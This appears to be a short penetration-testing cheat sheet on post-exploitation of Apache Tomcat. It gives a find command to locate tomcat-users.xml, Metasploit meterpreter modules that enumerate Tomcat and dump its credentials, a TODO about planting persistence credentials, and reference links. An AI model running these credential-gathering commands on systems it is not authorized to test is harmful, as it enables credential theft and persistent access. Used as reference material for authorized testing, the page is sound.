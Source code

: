 # Post Exploitation

## Manual

Enumerate Apache Tomcat usernames.

```
$ find / -name "tomcat-users.xml" 2>/dev/null

$ find / -name "tomcat-users.xml" 2>&1
```

TODO: Add persistence to add credentials in `tomcat-users.xml`

## Metasploit

Enumerate Apache Tomcat instance.

```
meterpreter > run post/windows/gather/enum_tomcat
```

Dump credentials.

```
meterpreter > run post/multi/gather/tomcat_gather
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Tomcat Gather Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/gather/tomcat_gather.md)

### Hacktricks

- [Hacktricks: Tomcat](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html)

### Hacking Articles

- [Hacking Articles: Tomcat Penetration Testing](https://www.hackingarticles.in/tomcat-penetration-testing/)